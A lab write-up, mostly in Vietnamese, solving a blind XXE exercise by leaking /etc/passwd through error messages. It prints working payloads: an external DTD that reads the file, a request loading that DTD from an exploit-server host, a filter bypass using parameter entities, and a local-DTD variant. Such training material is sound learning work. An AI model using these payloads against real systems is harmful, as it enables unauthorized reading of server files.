








# Writeup LAB Exploiting blind XXE to retrieve data via error messages

## Goal
To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.
## Khai thác
Trang chủ

Như bài thực hành Blind trước ở chức năng kiểm tra tồn kho xảy ra lỗ hổng XXE khi parse XML k đúng cách nhưng với dữ liệu khai thác mù chứ không trả về dữ liệu người dùng.

Lịch sử HTTP Burp

Và để kiểm tra XML parse đúng cách hay không bằng cách tôi đưa vào kí tự lạ như cũ `&xxe;` thì kết quả trả về `"Entities are not allowed for security reasons"` nhưng tôi có thể bypass bằng cách dấu `%xxe;` lúc này kết quả trả về khác chứng tỏ chúng ta có thể Inject tệp XXE 

Bằng cách truy xuất tệp `/etc/passwd`

Tôi sẽ truyền một tệp XML chứa DTD bên ngoài
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; errorLeak SYSTEM 'file:///none/%file;'>">
%eval;
%errorLeak;
```
Ở đây tôi sẽ định nghĩa một thực thể XML có tên là `file` chứa file thực thi tệp mục tiêu `/etc/passwd` <br>
Tiêp theo tôi sẽ khai báo một thực thể XML có tên là `eval` bên trong chứa khai báo động thực thể XML tên là `errorLeak` dùng để đánh giá một tệp không tồn tại có tên tệp chứa giá trị `file` <br>
Sử dụng thực thể `eval` dẫn đến việc khai báo động `errorLeak` được thực hiện và nếu thực thi không tồn tại dẫn đến thông báo lỗi kich hoạt tệp nội dung `/etc/passwd`
 
Tiếp theo tôi sẽ thực hiện khai báo một thực thể DTD `DOCTYPE` bằng cách kích hoạt SSRF thông qua yêu cầu HTTP đưa payload thực thi bên ngoài vào như sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foobar[
<!ENTITY % xxe SYSTEM "https://exploit-0a52006d04e77eb980a62a17016100a9.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả lúc này server sẽ parse tệp không tồn tại load thực thể DTD bên ngoài do chúng ta kiểm soát và kích hoạt tệp `/etc/passwd` của chúng ta



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foobar[
<!ENTITY % xxe SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %xxe;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```